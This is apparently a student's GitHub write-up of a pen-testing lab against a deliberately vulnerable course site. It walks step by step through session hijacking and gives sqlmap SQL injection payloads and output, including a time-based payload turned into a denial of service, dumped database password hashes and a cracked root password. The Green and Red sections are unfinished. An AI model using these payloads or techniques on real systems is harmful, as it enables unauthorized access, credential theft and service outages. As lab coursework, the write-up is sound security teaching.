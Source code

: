 ## Pen Testing Live Targets

Time spent: 25 hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:

* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each color is vulnerable to only 2 of the 6 possible exploits. First discover which color has the specific vulnerability, then write a short description of how to exploit it, and finally demonstrate it using screenshots compiled into a GIF.

## Blue

Vulnerability #1: Session Hijacking

Description: 

The Session Hijacking attack consists of the exploitation of the web session control mechanism, which is normally managed for a session token.

Because http communication uses many different TCP connections, the web server needs a method to recognize every user’s connections. The most useful method depends on a token that the Web Server sends to the client browser after a successful client authentication. A session token is normally composed of a string of variable width and it could be used in different ways, like in the URL, in the header of the http requisition as a cookie,

How to document and recreate this exploit:

1- First visit https://104.198.208.81/blue/public/staff/login.php and login using the pperson credentials. 
2- Then go to https://104.198.208.81/blue/public/hacktools/change_session_id.php to see your current PHPSESSIONID, store that information for later. 
3- Open another browser such as Firefox or Chrome and visit https://104.198.208.81/blue/public/hacktools/change_session_id.php, copy the authenticated PHPSESSIONID to replace the your Session ID. 
4- Next visit https://104.198.208.81/blue/public/login.php, you should see that you are already logged in. 
5- We successfully bypassed authentication.

![Session Hijacking Exploit](https://user-images.githubusercontent.com/111711434/200113050-d1337254-f6f5-4351-b27f-76912f7a5866.gif)


Vulnerability #2: Exploit # 2 - SQL Injections

Description: 

How to document and recreate this exploit:

1- First visit https://104.198.208.81/blue/public/staff/login.php and login using the pperson credentials. 
2- Then head on over to URL https://104.198.208.81/blue/public/salesperson.php?id=1 
3- Using BurpSuite, GET request file as a TXT file. We will feed this information to a tool called SQLMap with the following parameter: sqlmap -r /home/kali/sqlmal-dev/request.txt -a (the -a parameter will return EVERYTHING, at times not recommended)
4- SQLMap detects a vulnerability in the 'id=' field and provides us with three SQL injections:
	
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=3' AND 2971=2971 AND 'bcTH'='bcTH
    
    Comments after testing: Returned the information for another user, see below:
    
    Irene Boling
    555-736-2301
    iboling@salesperson.com

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=3' AND (SELECT 8396 FROM (SELECT(SLEEP(5)))PBWw) AND 'pCMl'='pCMl

    Comments after testing: Changed (SlEEP(5))))PBWw) to SLEEP(200000))))PBWw and it created a Denial of Service for the time   set. 
    ![Denial of Service after SQL injection  ](https://user-images.githubusercontent.com/111711434/200113022-4ab3ce4f-24d2-498a-b6fb-23d47637d3f5.png)

    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: id=-8495' UNION ALL SELECT CONCAT(0x716b766a71,0x6b544944475a6778655979637a6558776b595163416a567459494a735864556b4f55666875547352,0x7171717a71),NULL,NULL,NULL,NULL-- -

Comments after testing: Redirects back to the 'Find a Salesperson' web page.

The scan revelead the following information that can further assist us:

Web Server OS : Linux Ubuntu 16.04 or 16.10
Web App Technology: Apache 2.4.18 server
MySQL version: 5.0.12
 Databases:  
[INFO] fetching database names
[INFO] resumed: 'globitek_blue'
[INFO] resumed: 'information_schema'
[INFO] resumed: 'globitek_blue'
[INFO] resumed: 'globitek_green'
[INFO] resumed: 'globitek_red'
[INFO] resumed: 'mysql'
[INFO] resumed: 'performance_schema'
[INFO] resumed: 'sys'

Database management users:                                                                                                                                                                                                     
[*] 'debian-sys-maint'@'localhost'
[*] 'mysql.session'@'localhost'
[*] 'mysql.sys'@'localhost'
[*] 'root'@'localhost'


Moreover, SQLMap also located & revealed the following password hashes:

[INFO] fetching database users password hashes
[INFO] resumed: 'root','*2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19'
[INFO] resumed: 'mysql.sys','*THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE'
[INFO] resumed: 'debian-sys-maint','*7B88B3A98617F2ED6B4EB4F48AEAD4E1416C359C'
[INFO] resumed: 'mysql.session','*THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE'


Using the integrated dictionary-based password cracker (mysql_passwd) the password for root was found:

database management system users password hashes:                                                                                                                                                                                           
[*] debian-sys-maint [1]:
    password hash: *7B88B3A98617F2ED6B4EB4F48AEAD4E1416C359C
[*] mysql.session [1]:
    password hash: *THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE
[*] mysql.sys [1]:
    password hash: *THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE
[*] root [1]:
    password hash: *2470C0C06DEE42FD1618BB99005ADCA2EC9D1E19
    clear-text password: password

Description: 

## Green

Vulnerability #1: User Enumaration 

Description:

<img src="green-vuln1.gif">


## Red

Vulnerability #1: __________________

Description:

<img src="red-vuln1.gif">


## Notes

Describe any challenges encountered while doing the work

